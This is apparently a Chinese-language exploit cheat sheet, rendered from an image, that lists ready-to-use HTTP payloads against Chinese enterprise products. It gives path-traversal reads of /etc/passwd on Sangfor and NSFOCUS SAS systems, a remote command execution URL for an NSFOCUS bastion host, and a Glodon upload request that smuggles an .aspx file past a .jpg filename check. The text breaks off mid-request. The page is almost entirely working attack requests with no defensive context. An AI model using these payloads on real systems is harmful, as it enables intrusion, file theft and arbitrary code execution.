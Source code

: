 ## 深信服报表任意读取


GET/report/download.php?pdf=../../../../../etc/passwd HTTP/1.1

Host: xx.xx.xx.xx:85

User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)

Accept: */*

Connection: Keep-Alive


## 绿盟sas安全审计系统任意文件读取漏洞

/webconf/GetFile/indexpath=../../../../../../../../../../../../../../etc/passwd

## 绿盟SAS堡垒机Exec远程命令执行漏洞

/webconf/Exec/index?cmd=要执行的命令

## 广联达后台文件上传

POST /gtp/im/services/group/msgbroadcastuploadfile.aspx HTTP/1.1

Host: 10.10.10.1:8888

X-Requested-With: Ext.basex

Accept:text/html,application/xhtml+xml, image/jxr, */*

Accept-Language: zh-Hans-CN,zh-Hans;q=0.5

User-Agent:Mozilla/5.0(Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36

Accept-Encoding: gzip, deflate

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj

Accept: */*

Origin: http://10.10.10.1

Referer: http://10.10.10.1:8888/Workflow/Workflow.aspx?configID=774d99d7-02bf-42ec-9e27-caeaa699f512&menuitemid=120743&frame=1&modulecode=GTP.Workflow.TaskCenterModule&tabID=40

Cookie: 

Connection: close

Content-Length: 421

------WebKitFormBoundaryFfJZ4PlAZBixjELj

Content-Disposition:form-data; filename="1.aspx";filename="1.jpg"

Content-Type: application/text
